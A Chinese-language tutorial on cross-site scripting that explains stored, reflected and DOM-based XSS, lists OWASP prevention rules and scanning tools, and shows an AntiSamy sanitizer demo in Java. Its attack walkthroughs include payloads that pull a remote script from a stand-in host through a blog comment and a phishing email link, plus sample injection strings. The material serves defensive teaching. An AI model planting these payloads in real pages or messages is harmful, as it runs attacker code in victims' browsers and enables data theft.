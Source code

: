 

跨站脚本攻击(XSS - Cross Site Scripting)

工具参考 Acunetix_Web_Vulnerability_Scanner_V9
arachni-0.4.2-0.4
Pangolin_jb51.rar
==原理==
Web程序将数据直接作为HTML显示（未进行HTML特殊字符转义、script脚本过滤），在浏览器端显示的这些内容的时候，激活其中包含的JavaScript恶意脚本，这些脚本可以用来获取用户敏感信息，追踪用户浏览历史、将用户诱导至其他网站等。

更多攻击方式请参考：[https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet XSS Filter Evasion Cheat Sheet]

==分类==

<table>
  <tr>
    <th></th>
    <th colspan="3">风险代码存在于？</th>
  </tr>
  <tr>
    <th></th>
    <th>数据库中</th>
    <th>HTTP响应中</th>
    <th>浏览器构建的DOM中</th>
  </tr>
  <tr>
    <td>Stored XSS Attacks</td>
    <td>Yes</td>
    <td>Yes</td>
    <td>Yes</td>
  </tr>
  <tr>
    <td>Reflected XSS Attacks</td>
    <td></td>
    <td>Yes</td>
    <td>Yes</td>
  </tr>
  <tr>
    <td>DOM Based XSS</td>
    <td></td>
    <td></td>
    <td>Yes</td>
  </tr>
</table>



===Stored XSS Attacks===
风险代码被先持久存储于服务器上（比如：数据库中），然后再读取出来显示到浏览器。比如在博客上发表文章、发表评论。

攻击流程示例：
<ol>
<li>恶意用户A发现某个博客系统B对博文的评论未做严格检查，而允许注入Javascript代码。</li>
<li>恶意用户A找到一个知名度高的一篇访问量大的博文，发表以下评论代码：
<source>
<script src="http://a.com/xss.js"></script>
楼主的帖子实在是写得太好了。文笔流畅,修辞得体,深得魏晋诸朝遗风,
更将唐风宋骨发扬得入木三分,能在有生之年看见楼主的这个帖子。
实在是我三生之幸啊。......
</source>
</li>
<li>博客系统B使用以下方式显示回帖（JSP语法）：
<source>
回帖人：<%=comment.userId %>，回帖内容是：<%= comment.content %>
</source>
</li>
<li>后果：每个读此博文并看到该评论的受害者都会加载并执行其中的恶意代码。</li>
</ol>

===Reflected XSS Attacks===
风险代码并没有被持久存储，而是在服务器端转了一圈之后就直接显示在生成的动态HTML中。
这种攻击方式常被以HTML邮件的方式发送给潜在受害者。

攻击流程示例：
<ol>
<li>恶意用户A搜索、验证并确信某系统B在访问 <code>http://b.com/welcome.do?user=zhang3</code> 时，是以以下方式显示URL中的用户名的（JSP语法）：
<source>
 welcome <%=param["user"] %>!
</source>
</li>
<li>恶意用户A就利用此漏洞，以系统B的名义向多个用户发送包含以下连接的HTML邮件，并诱导用户点击该链接：
<source>
{系统B}温馨提醒您：XXX 想加您好友，请点击
<a href="http://b.com/welcome.do?user=zhang3<script src='http://a.com/xss.js'></script>">此处</a>
进行处理！
</source>
</li>
<li>后果：受害者在阅读该邮件并点击此链接后，在浏览系统B的欢迎画面时，就会加载并执行来自于 a.com 的恶意脚本</li>
</ol>


===DOM Based XSS===
这种方式与 Reflected XSS Attacks 比较相似，但区别在于：在Reflected XSS Attacks 中，恶意代码时有缺陷的系统在返回给浏览器端之间就加入到生成的HTML中了（比如通过JSP、PHP等）；而在 DOM Based XSS 中，恶意代码是在浏览器端通过有缺陷的JavaScript代码在动态修改DOM树时加入的。

也即，在 Reflected XSS Attacks 的攻击流程示例的第二步中的代码替换为以下方式：
<source>
 welcome <script>
document.write(document.location.href.substring(document.location.href.indexOf("user=")+5));
</script>!
</source>

与前两种的区别是：前两种最终会将风险代码写在生成HTML中，而这一种是服务器端返回的HTML本身并不包含风险代码，但是其中的JavaScript脚本在动态修改DOM时，未对输出值做充分的安全检查。


注入点 

1. 客户端：来自用户输入，却未作安全检查。

<source>
<img src="https://www.owasp.org/skins/monobook/ologo.png" onload="alert('XSS');" >
</source>

2. 服务器端：来自配置文件，却未作安全检查（比如消息模板，头部文件）

==防范XSS==
在Web应用中，XSS缺陷很难确认和移除，一些漏洞扫描工具也只能对浅层的扫描。最好的方式就是针对安全展开代码Review，并对所有来自HTTP请求的数据进行检查，如果请求中的数据有可能最终作为HTML显示，就需要做相应的处理。

==检查列表==
这里仅仅给出了部分摘要，更详尽列表请参看[https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet XSS Prevention Cheat Sheet]：
<ul>
<li>RULE #0 - 不信任的数据只能插入到允许的位置
<p> 示例代码：
<source>
  <script>...NEVER PUT UNTRUSTED DATA HERE...</script>   直接放到script中
  &lt;!--...NEVER PUT UNTRUSTED DATA HERE...-->             在HTML注释中
  <div ...NEVER PUT UNTRUSTED DATA HERE...=test />       在属性名中
  <NEVER PUT UNTRUSTED DATA HERE... href="/test" />      在标签名中
  <style>...NEVER PUT UNTRUSTED DATA HERE...</style>     直接在CSS中
</source>
</p>
</li>

<li>RULE #1 - 插入HTML内容时要先转义
HTML特殊字符转义
<source>
 &amp; --&gt; &amp;amp;
 &lt; --&gt; &amp;lt;
 &gt; --&gt; &amp;gt;
 &quot; --&gt; &amp;quot;
 &#x27; --&gt; &amp;#x27;
 / --&gt; &amp;#x2F; 这里包含了斜杠，因为它在结束一个标签时有用
</source>
</li>

<li>RULE #2 - 插入标签的属性值前要先转义

</li>

<li>RULE #3 - 将不信任的数据插入到JavaScript前要先转义</li>
<li>RULE #3.1 - 在HTML中对JSON的值进行HTML转义，以及使用 JSON.parse 读取数据</li>
<li>RULE #4 - 对CSS转义，以及对HTML元素的sytle设置值前要进行充分的检查</li>
<li>RULE #5 - 在插入URL数据前要先URL转义</li>
<li>RULE #6 - 在输出用户输入的HTML内容时，要使用HTML策略引擎进行验证或移除其中的风险代码</li>
<li>RULE #7 - 要预防 DOM-based XSS</li>
<li>RULE #8 - 使用 [https://www.owasp.org/index.php/HTTPOnly HTTPOnly cookie]</li>


</ul>
==DOM Based XSS 检查列表==
[https://www.owasp.org/index.php/DOM_based_XSS_Prevention_Cheat_Sheet 参考]
<ul>
<li>RULE #1 - 在可以执行JavaScript的环境中，要对不信任的数据先 HTML 转义，再 JavaScript 转义</li>
<li>RULE #2 - 在可以执行JavaScript的环境中，为HTML元素的属性设置值前要先进行 JavaScript 转义</li>
<li>RULE #3 - 在可以执行JavaScript的环境中，设置事件处理函数等地方需要特别注意</li>
<li>RULE #4 - 在插入CSS属性时需要先进行 JavaScript 转义</li>
<li>RULE #5 - 在插入URL前要先进行URL转义</li>
</ul>

==工具==
* [https://www.owasp.org/index.php/Category:OWASP_AntiSamy_Project OWASP AntiSamy]
* [http://www.cirt.net/nikto2 Nikto2] - 开源的Web服务器扫描工具
* [http://www.tenable.com/products/nessus nessus] - 漏洞扫描工具
* [http://wpl.codeplex.com/ Microsoft Web Protection Library] - .Net 平台下的安全工具
* [http://msdn.microsoft.com/en-us/library/ms972969.aspx#securitybarriers_topic6 ValidateRequest] - .Net 平台内建功能，可以提供部分安全保护措施
* [https://www.owasp.org/index.php/ESAPI OWASP ESAPI] - OWASP Enterprise Security API


== OWASP AntiSamy 使用示例 ==
pom.xml
```xml
  <dependency>
    <groupId>org.owasp.antisamy</groupId>
    <artifactId>antisamy</artifactId>
    <version>1.5.2</version>
  </dependency>
</source>
```

AntiSamyDemo.java
```java
import java.io.IOException;
import java.io.InputStream;

import org.owasp.validator.html.AntiSamy;
import org.owasp.validator.html.CleanResults;
import org.owasp.validator.html.Policy;
import org.owasp.validator.html.PolicyException;
import org.owasp.validator.html.ScanException;

public class AntiSamyDemo {

    public static void main(String[] args) throws PolicyException, IOException, ScanException {

        InputStream prolicyIn = AntiSamyDemo.class.getResourceAsStream("antisamy-ebay-1.4.4.xml");
        Policy policy = Policy.getInstance(prolicyIn);
        AntiSamy as = new AntiSamy();
        String drityInput = "<script>alert(1)</script>"
                + "<a href='#bb' style='z-index:999; width:100%;' onclick='xxx'>aa</a>"
                + "<iframe src='javascript:xxx'></iframe>"
                + "<xxx>xxx</xxx>";

        // 输出： <a href="#bb" style="width: 100.0%;">aa</a> xxx
        CleanResults cr = as.scan(drityInput, policy, AntiSamy.SAX);
        String cleanResult = cr.getCleanHTML();
        System.out.println(cleanResult);
    }
}
```


参考：
* [https://www.owasp.org/index.php/Cross-site_Scripting_(XSS) Cross site Scripting ]
* [https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet XSS Filter Evasion Cheat Sheet]

Cross-Site Request Forgery (CSRF)